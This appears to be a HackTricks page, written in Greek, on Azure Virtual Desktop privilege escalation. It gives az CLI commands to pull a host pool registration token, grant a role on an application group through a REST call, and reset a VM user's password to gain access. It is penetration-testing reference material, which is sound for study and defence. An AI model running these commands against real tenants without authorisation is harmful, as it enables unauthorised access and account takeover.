 # Az - Virtual Desktop Privesx

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
Μπορείτε να ανακτήσετε το token εγγραφής που χρησιμοποιείται για την εγγραφή εικονικών μηχανών εντός ενός host pool.
```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```
### ("Microsoft.Authorization/roleAssignments/read", "Microsoft.Authorization/roleAssignments/write") && ("Microsoft.Compute/virtualMachines/read","Microsoft.Compute/virtualMachines/write","Microsoft.Compute/virtualMachines/extensions/read","Microsoft.Compute/virtualMachines/extensions/write")

Με αυτές τις άδειες μπορείτε να προσθέσετε μια ανάθεση χρήστη στην ομάδα εφαρμογών, η οποία είναι απαραίτητη για την πρόσβαση στη εικονική μηχανή του εικονικού επιτραπέζιου υπολογιστή.
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
--body '{
"properties": {
"roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
"principalId": "<USER_OBJECT_ID>"
}
}'
```
Επιπλέον, μπορείτε να αλλάξετε τον χρήστη και τον κωδικό πρόσβασης της εικονικής μηχανής για να έχετε πρόσβαση σε αυτήν.
```bash
az vm user update \
--resource-group <RESOURCE_GROUP_NAME> \
--name <VM_NAME> \
--username <USERNAME> \
--password <NEW_PASSWORD>
```
{{#include ../../../banners/hacktricks-training.md}}

